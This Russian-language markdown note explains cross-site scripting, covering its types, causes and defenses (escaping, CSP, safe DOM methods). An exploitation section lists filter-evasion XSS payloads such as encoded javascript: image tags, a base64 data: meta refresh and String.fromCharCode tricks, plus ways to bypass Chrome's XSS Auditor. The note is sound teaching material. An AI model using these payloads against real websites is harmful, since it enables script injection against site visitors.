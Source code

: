 # Cross-Site Scripting aka XSS

**XSS** - атака, смысл которой во внедрении вредоносного кода в страницу уязвимого ресурса для последующего взаимодействия посетителя сайта и сервером атакующего.  

## Классификация

**XSS** делят по вектору:  

* **reflected** - внедрение происходит на основе переданных в запросе данных, например в **querystring**

`http://example.com/method?vuln=<script>alert();</script>`
  
`<div>{{ vuln }}</div>`

* **stored** - внедрение просиходит однократно атакующим, с последующим сохранением на сервере. Например в теле сообщения на форуме.

Так же **XSS** делят по способу воздействия:

* **активные** - выполняющие необходимые действия при загрузке, не требуя дополнительных действий пользователя.
* **пассивные** - ожидают некоторых действий пользователя для срабатывания, например наведение курсора на элемент.

## Причины возникновения

* Баги браузера
* Отсутствие экранирования или фильтрации пользовательских данных
* Через другую уязвимость, например **SQL**-инъекцию
* Подмена кодировки страницы, например на **UTF-7**, если она явно не указана

## Защита

1. Явно указывать кодировку страниц
2. Экранировать и фильтровать пользовательский ввод
3. По-возможности использовать **CSP**, вынося **JS** в подключаемые файлы

При манипуляциях с **DOM** на клиенте использовать безопасные методы:  

    node.textContent = userInput;
    element.setAttribute(attrName, userInput);
    window.encodeURIComponent(userInput);
    element.style.property = userInput;

## Эксплуатация

Обход защиты, если таковая имеется. Можно попробовать обойти фильтры, кодируя различным образом пейлоад.  
Примеры:  

`alert(String.fromCharCode(120,97,107,110,101,116,46,114,117))`

`alert(unescape(/%78%61%6b%6e%65%74%2e%72%75/.source))`

`<IMG SRC=&!#106;&!#97;&!#118;&!#97;&!#115;&!#99;&!#114;&!#105;&!#112;&!#116;&!#58;&!#97;&!#108;&!#101;&!#114;&!#116;&!#40;&!#39;&!#120;&!#97;&!#107;&!#110;&!#101;&!#116;&!#46;&!#114;&!#117;&!#39;&!#41;>`

`<IMG SRC=&!#0000106a&!#0000118&!#0000097&!#0000115&!#0000099&!#0000114&!#0000105&!#0000112&!#0000116&!#0000058&!#0000097&!#0000108&!#0000101&!#0000114&!#0000116&!#0000040&!#0000039&!#0000120&!#000097&!#0000107&!#0000110&!#0000101&!#0000116&!#0000046&!#0000114&!#0000117&!#0000039&!#0000041>`

`<IMG SRC="Ja    va    sc    ri    pt    :    al    er    t(    'me    ssa    ge'    )">`

`<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgneGFrbmV0LnJ1Jyk8L3NjcmlwdD4=">`

Если допускается пользовательская разметка, то перебрать атрибуты, обработчики событий.  

При успешной эксплуатации можно привязать, к примеру, **CSRF**.

[Еще способы обхода фильтров от OWASP](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

## PS: XSS-Auditor

> С версии 7.0.542.0

У Chrome браузера есть встроенный механизм защиты от **XSS**, в рамках которого он меняет контент, блокирует выполнение подозрительного **JS**, блокирует работу с куками, если они используются в запросах не так, как принято, закрывает теги и вообще пакостит как может исходя из своих соображений.

> Может ловить false-positive
> Если это происходит, то разработчик скорее всего написал не шибко безопасный код, склонный к утечкам данных

Для отключения нужно запустить Chrome с флагом `--disable-xss-auditor`, без этого искать уязвимости напрасно, потому как дырка может быть, но именно в хроме ее не удастся найти.  
Включается форсировано и выключается заголовком `X-XSS-Protection` со значениями `1` и `0` соответственно.  

Есть у него полезный функционал: репортить о своих срабатываниях, для этого нужно указать **URI** в заголовке:  
`X-XSS-Protection: 1; reeport=http://myhost.com/reportURL`

А еще он легко обходится:  

* Игнорирует содержимое `<svg></svg>`, а внутри может быть **JS**
* Часто игнорирует XSS, если внедряемый контент из нескольких строк

[← Назад](../README.md)